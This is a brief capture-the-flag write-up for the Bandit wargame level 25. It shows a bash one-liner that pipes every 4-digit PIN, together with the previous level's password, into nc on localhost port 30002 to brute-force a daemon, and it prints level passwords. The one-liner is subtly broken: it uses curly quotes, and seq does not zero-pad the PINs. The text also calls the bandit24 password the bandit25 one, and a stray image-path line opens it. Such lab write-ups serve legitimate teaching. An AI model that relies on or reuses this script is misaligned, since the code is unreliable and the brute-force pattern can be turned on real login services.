> UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## level 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

To solve this challenge we write a script that connect to port 30002 and enter bandit25 password and pincode.

```bash
nc localhost 30002 <<< $(for a in $(seq 0000 9999);do echo “UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $a”;done)
```

first we run for loop for 0000 to 9999 and for each iteration we test pincode.

> uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG




